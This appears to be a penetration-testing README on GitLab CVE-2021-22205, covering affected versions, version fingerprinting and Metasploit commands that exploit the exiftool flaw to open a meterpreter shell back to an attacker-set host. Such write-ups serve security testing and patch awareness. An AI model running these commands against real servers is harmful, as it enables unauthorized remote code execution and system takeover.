 # Gitlab - CVE-2021-22205 Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    ![](imgs/gitlab_version.png)


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```

### Step 2.2: Exploit without Metasploit

TODO

### Enjoy your shell

After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.

![](imgs/metasploit_gitlab_rce.png)


## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  